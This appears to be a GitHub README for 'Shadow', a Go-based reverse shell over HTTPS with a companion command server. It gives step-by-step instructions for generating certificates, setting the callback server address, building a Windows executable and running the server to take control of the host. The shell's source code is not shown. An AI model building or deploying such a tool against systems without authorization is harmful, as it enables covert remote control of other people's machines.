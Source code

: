 # Shadow - A platform independent reverse shell over https.

#####  Shadow is a reverse shell over https and Shadowserver is a manager for Shadow .

## Getting Started

##### git clone https://github.com/diljithishere/shadow.git
##### cd shadow/src
#### Create certs
#### openssl genrsa -out server.key 2048
#### openssl -new -x509 -days 1826 -key server.key -out server.crt
#### go get github.com/PuerkitoBio/goquery
#### go get github.com/fatih/color
#### Build Shadow 
#### Update your shadowserver ip  {shadowserver := "https://ip:port"}
##### GOOS=windows GOARCH=386 go build -o shadow.exe shadow.go

#### Build Shadow Server
##### go build -o shadowserver shadowserver.go 
#### Run Shadow Server 
##### ./shadowserver

#### Once if the shadow runs Shadowserver's prompt will change to <<Talk to Shadow>>


### Prerequisites

#### Go 1.9

## Built With
#### Go Lang

## Author

* **Diljith S** - *Initial work* - (https://github.com/diljithishere)

